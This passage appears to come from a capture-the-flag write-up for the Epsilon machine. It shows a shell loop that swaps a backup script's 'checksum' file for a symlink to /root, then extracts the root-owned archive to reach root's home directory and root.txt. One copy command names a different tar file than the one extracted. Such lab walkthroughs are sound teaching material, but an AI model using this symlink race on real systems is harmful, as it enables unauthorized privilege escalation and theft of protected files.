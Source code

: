 
This will loop ever second, each time checking for the existence of `checksum`
in the current directory. When it does exist, it will remove it, and replace
it with a symbolic link. Then it prints, sleeps, and prints again, and exits
the loop. I’ll run this on Epsilon:

    
    
    tom@epsilon:/opt/backups$ while :; do if test -f checksum; then rm -f checksum; ln -s /root checksum; echo "Replaced checksum"; sleep 5; echo "Backup probably done now"; break; fi; sleep 1; done
    Replaced checksum
    Backup probably done now
    

The new backup is significantly larger than the others:

    
    
    tom@epsilon:/var/backups/web_backups$ ls -l
    total 159848
    -rw-r--r-- 1 root root  1003520 Mar  9 21:00 313767730.tar
    -rw-r--r-- 1 root root  1003520 Mar  9 21:01 333334780.tar
    -rw-r--r-- 1 root root  1003520 Mar  9 21:02 358658250.tar
    -rw-r--r-- 1 root root  1003520 Mar  9 21:03 386669510.tar
    -rw-r--r-- 1 root root 80332800 Mar  9 21:04 498453770.tar
    

I’ll copy it to `/dev/shm` and and extract it:

    
    
    tom@epsilon:/var/backups/web_backups$ cp 645074490.tar /dev/shm/
    tom@epsilon:/var/backups/web_backups$ cd /dev/shm/
    tom@epsilon:/dev/shm$ tar xf 498453770.tar 
    tar: opt/backups/checksum/.bash_history: Cannot mknod: Operation not permitted
    tar: Exiting with failure status due to previous errors
    

There are a couple errors, but over all it works. There’s an `opt` directory:

    
    
    tom@epsilon:/dev/shm$ ls
    498453770.tar  multipath  opt
    tom@epsilon:/dev/shm$ cd opt/backups       
    tom@epsilon:/dev/shm/opt/backups$
    tom@epsilon:/dev/shm/opt/backups$ ls -l
    total 972
    -rw-r--r-- 1 tom tom 993280 Mar  9 21:07 637358080.tar
    drwx------ 9 tom tom    300 Dec 20 11:06 checksum
    

`checksum` is a directory, not a file. It looks like a home directory:

    
    
    tom@epsilon:/dev/shm/opt/backups$ ls checksum/
    docker-compose.yml  lambda.sh  root.txt  src
    

I can read `root.txt` at this point:

    
    
